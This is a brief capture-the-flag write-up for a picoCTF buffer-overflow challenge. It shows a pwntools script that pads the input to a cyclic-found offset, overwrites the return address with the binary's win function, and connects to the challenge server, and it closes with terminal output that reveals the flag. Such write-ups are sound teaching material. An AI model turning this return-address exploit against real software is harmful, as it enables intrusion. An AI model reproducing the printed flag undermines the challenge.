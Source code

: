 ## Objetivo
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/187/vuln). You can view source [here](https://artifacts.picoctf.net/c/187/vuln.c). And connect with it using `nc saturn.picoctf.net 59762`

## Solución
```bash
┌──(kali㉿kali)-[~/picoCTFretos/Binexp/bufferoverflow1]
└─$ cat script.py 
from pwn import *
context.binary = elf = ELF("./vuln", checksec=False)
p = process()
p = remote("saturn.picoctf.net", 57476)

p.recv()
offset = cyclic_find(0x6161616c)
addr_win = elf.sym.win
payload = b""
payload += b"A" * offset
payload += p32(addr_win)
p.sendline(payload)
p.interactive()
```

```bash
┌──(kali㉿kali)-[~/picoCTFretos/Binexp/bufferoverflow1]
└─$ ls      
flag.txt  script.py  vuln  vuln.c
                                                                             
┌──(kali㉿kali)-[~/picoCTFretos/Binexp/bufferoverflow1]
└─$ python script.py        
[x] Starting local process '/home/kali/picoCTFretos/Binexp/bufferoverflow1/vu[q] Starting local process '/home/kali/picoCTFretos/Binexp/bufferoverflow1/vu[+]  pid 10844
[▄] Opening connection to saturn.picoctf.net on port 57476: Trying 13.59.203.[+] Opening connection to saturn.picoctf.net on port 57476: Done
[*] Switching to interactive mode
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_b15b081e}[*] Got EOF while reading in interactive
$ 
```

